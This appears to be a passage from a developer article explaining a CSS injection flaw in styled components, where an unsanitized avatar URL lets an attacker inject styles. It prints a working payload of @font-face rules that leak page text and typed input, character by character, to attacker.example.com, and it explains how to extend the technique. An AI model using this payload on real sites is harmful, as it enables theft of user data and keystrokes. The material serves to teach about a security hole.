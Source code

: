 Say that your boss wants each user in your application to have an avatar next to their name. Fair enough. Your boss, being a bit stingy, doesn't want to pay for bandwidth for the avatars. So he wants you to provide the option to hotlink to an off-site URL. Whatever.

Naturally, your `Identity` component is built as a styled component using glamorous. It accepts an entire user object as a prop, with `name`, `twitter` and a few other things. Your backend developer adds an `avatarURL` to the object, and then your designer adds an image to the markup using a `background-image` tag.

And now, anybody who views that avatar will have data from specific elements on their page hoovered up by god-knows-who. Here's the avatarURL that does it:

<Aside>
<Details></Details>
</Aside>

```js
const avatarURL = `blue;}

@font-face{
  font-family:poc;
  src: url(https://attacker.example.com/?D);
  unicode-range:U+0044;
}
@font-face{
  font-family:poc;
  src: url(https://attacker.example.com/?R);
  unicode-range:U+0052;
}
@font-face{
  font-family:poc;
  src: url(https://attacker.example.com/?O);
  unicode-range:U+004F;
}
@font-face{
  font-family:poc;
  src: url(https://attacker.example.com/?P);
  unicode-range:U+0050;
}

.logged-in {
  font-family: poc;
}

.something{color: red
`
```

<Aside>
<Details></Details>
</Aside>

This works by attaching different URLs to each character in a custom font, then applying that font to the text you want to siphon. This allows you to get a list of characters, and if applied to an input as the user is typing, it'll be guaranteed to give you them in the correct order, along with timing information. You can also combine with things like the `::first-letter` or `::selection` selector to get more detailed information.
